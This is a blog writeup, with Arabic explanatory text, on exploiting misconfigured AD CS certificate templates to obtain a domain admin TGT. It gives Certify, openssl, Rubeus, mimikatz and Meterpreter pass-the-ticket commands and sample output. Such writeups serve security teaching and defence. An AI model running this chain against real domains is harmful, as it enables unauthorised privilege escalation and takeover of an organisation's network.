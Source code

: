 ```yaml
---
title: Misconfigured Certificate Templates
date: 2022-05-11 18:35:00 +0300
categories: [Writeup, PostExploit]
tags: [Active Directory]     # TAG names should always be lowercase
---
```







 



### Description:
&#x202b;
بسم الله الرحمن الرحيم والصلاة والسلام على اشرف المرسلين.
أActive Directory Certificate Services or AD CS هي تمبلت مقدمة من مايكروسوفت كنقطة بداية لتوزيع ال certificates وهي مصممه لتنفيذ احتياجات معينة، والاخطاء في اعداد هذه الشهادات قد يؤدي إلى privilege escalation وكذلك قد يساعدنا على التنقل بين الاجهزه على الدومين كنترولر عن طريق طلب ال TGT الخاص بأي دومين كنترولر عن طريق هذه الشهادة.

### Exploit
&#x202b;
عن طريق الاداة الجميله `Certify` نستطيع بكل بساطه البحث عن الفرنبل templates ، `Certify.exe find /vulnerable` 

![image](https://user-images.githubusercontent.com/54814433/172271163-5757fe3f-f49e-4449-b687-e3db36b8e9b5.png)
&#x202b;
بناءً على المخرجات من الاداة نستطيع معرفه:
&#x202b;
- اسم الـ vuln certificate
- اسم الـ DC المقدم لل vuln certificate
- الـ mspki certificate name flag
- الـ enrollment rights 
وبمساعدة هذه المعطيات نستطيع الان معرفة الدومين كنترولر المقدم للسيترفيكت، وكذلك عن اذا كان ال MSPKI CERT NAME FLAG هو `ENROLLEE_SUPPLIES_SUBJECT` فنستطيع تحديد الـ `subject alternative name` عند طلب ال VULN CERT وهذا يعني اننا نستطيع طلب ال cert لل domain admin !

&#x202b;
والان عن طريق الاداة `Certify` نستطيع طلب الvuln cert 

&#x202b;
`Certify.exe request /ca:dc-1.0xmaz.me\ca1 /template:VulnerableTemplate /altname:DomainAdmin`

&#x202b;
وهذا راح يعطينا ال `vulncert.pem` وبعد ذلك نقوم بتحويلها عن طريق

&#x202b;
`openssl pkcs12 -in vulncert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out vulncert.pfx`


&#x202b;
وبعد ذلك سنقوم بتحويل ال vulncert.pfx الى base64 


`cat cert.pfx | base64 -w 0`


&#x202b;
وبعد ذلك سنقوم بإستخدام الاداة `Rubeus` لطلب الـ tgt `asktgt` . 

```
Rubeus.exe asktgt /user:domainadmin /certificate:certbase64 /password:password /aes256 /nowrap

[*] Action: Ask TGT

[*] Using PKINIT with etype aes256_cts_hmac_sha1 and subject: CN=I, CN=Users, DC=0xmaz, DC=me 
[*] Building AS-REQ (w/ PKINIT preauth) for: '0xmaz.me\domainadmin'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      ....5pbw==

  ServiceName              :  krbtgt/0xmaz.me
  ServiceRealm             :  0XMAZ.ME
  UserName                 :  DomainAdmin
  UserRealm                :  0XMAZ.ME
  StartTime                :  1/18/2022 4:38:26 PM
  EndTime                  :  1/19/2022 2:38:26 AM
  RenewTill                :  1/25/2022 4:38:26 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  ....
  ASREP (key)              :  ....
```
&#x202b;
والان بعدما طلبنا التذكره نستطيع الدخول بها بكل بساطة، وهنالك طرق عديدة للدخول عن طريق الـ `kerberos ticket` بنتطرق بهذا الشرح لكم طريقة، ولكن قبل مانتطرق للشرح نحتاج نحول ال BASSE64 TICKET لـ `ticket.kirbi` ، وهذا بكل بساطة يتم عن طريق الامر التالي
```
$ on Linux
$ echo 'base64' | base64 --decode > ticket.kirbi
```
```
$ On Windows
$ [System.IO.File]::WriteAllBytes("C:/Users/User/Ticket.kirbi", [System.Convert]::FromBase64String("base64"))
```
&#x202b;
الان بعدما حولنا التكت، نبدأ بأول اداة
وهي mimikatz.exe
```
> mimikatz.exe
# privilege::debug
# kerberos::ptt C:/Users/User/Ticket.kirbi
...
File: 'C:/Users/User/Ticket.kirbi': OK
...
> klist | findstr "Cached"
...
Cached Tickets: (1)
...
# exit
Bye!
```
&#x202b;
الاداة الثانيه الا وهي Meterpreter عن طريق الاكستنشن `kiwi.rb` 
```
meterpreter > load kiwi
Loading extension kiwi...
.#####. mimikatz 2.2.0 20191125 (x64/windows)
.## ^ ##. "A La Vie, A L'Amour" - (oe.eo)
## / \ ## /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
## \ / ## > http://blog.gentilkiwi.com/mimikatz
'## v ##' Vincent LE TOUX ( vincent.letoux@gmail.com )
'#####' > http://pingcastle.com / http://mysmartlogon.com ***/

Success.

meterpreter > kerberos_ticket_use ./Ticket.kirbi
[*] Using Kerberos ticket stored in ./Ticket.kirbi, 1856 bytes ...
[+] Kerberos ticket applied successfully.
meterpreter > kerberos_ticket_use ./Ticket.kirbi
[*] Using Kerberos ticket stored in ./Ticket.kirbi, 1856 bytes ...
[+] Kerberos ticket applied successfully.
meterpreter > shell
Process 6384 created.
Channel 7 created.
Microsoft Windows [Version 10.0.17763.1294]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\Temp>dir \0xmaz.me\c$
dir \\0xmaz.me\c$
Volume in drive \\0xmaz.me\c$ has no label.
Volume Serial Number is A4D0-6780

Directory of \\0xmaz.me\c$

10/09/2021 09:12 AM <DIR> logs
12/07/2019 07:14 PM <DIR> PerfLogs
10/08/2021 12:34 PM <DIR> Program Files
10/11/2021 10:32 AM <DIR> Program Files (x86)
10/08/2021 07:10 PM <DIR> Python27
02/02/2021 07:04 AM <DIR> shares
10/12/2021 09:38 AM <DIR> Users
10/11/2021 10:30 AM <DIR> Windows
0 File(s) 0 bytes
8 Dir(s) 27,732,598,784 bytes free
```

